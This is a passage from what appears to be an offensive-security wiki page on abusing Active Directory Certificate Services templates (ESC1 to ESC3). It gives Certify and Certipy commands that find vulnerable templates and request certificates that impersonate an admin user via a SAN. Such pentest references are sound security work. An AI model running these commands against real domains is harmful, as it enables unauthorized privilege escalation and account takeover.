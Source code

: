 The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

### Any purpose EKU (ESC2)

When a certificate template specifies the **Any Purpose** EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### Certificate Agent EKU (ESC3)

When a certificate template specifies the **Certificate Request Agent** EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the **Certificate Request Agent** EKU.
